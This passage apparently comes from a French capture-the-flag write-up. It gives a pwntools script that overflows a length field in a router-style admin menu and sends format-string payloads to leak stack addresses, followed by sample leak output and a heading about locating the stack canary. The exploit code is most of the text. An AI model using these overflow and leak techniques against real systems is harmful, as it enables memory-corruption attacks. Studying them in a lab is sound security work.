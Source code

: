 ````python
    target.recvuntil(b"#>")
    buf = b'admin'
    target.sendline(buf)

    # Select Change Wifi Key
    target.recvuntil(b"#>")
    buf = b'2'
    target.sendline(buf)

    # Enter pwd and overflow the len fields
    target.recvuntil(b"#>")
    buf = b'1' * 24
    target.sendline(buf)

    # Quit adm menu
    target.recvuntil(b"#>")
    buf = b'1'
    target.sendline(buf)

    target.recvuntil(b"#>")
    buf = b'3'
    target.sendline(buf)
    target.recvuntil(b"#>")

    payload = f'%{i}$p'.encode()
    target.sendline(payload)
    for j in range (4):
        target.recvline()

    res = target.recvline()
    print(f"{i}: {res}")
    target.close()
````

````shell
└─$ python3 find_leak.py > local_addr.txt
````

On nettoie la sortie pour rendre les adresses plus lisibles :

````shell
0: b'%0$p'
1: b'(nil)'
2: b'0x1'
3: b'(nil)'
4: b'0xfefefefefefefeff'
5: b'(nil)'
6: b'0x2525252525252525'
[...]
````

### Trouver le canary
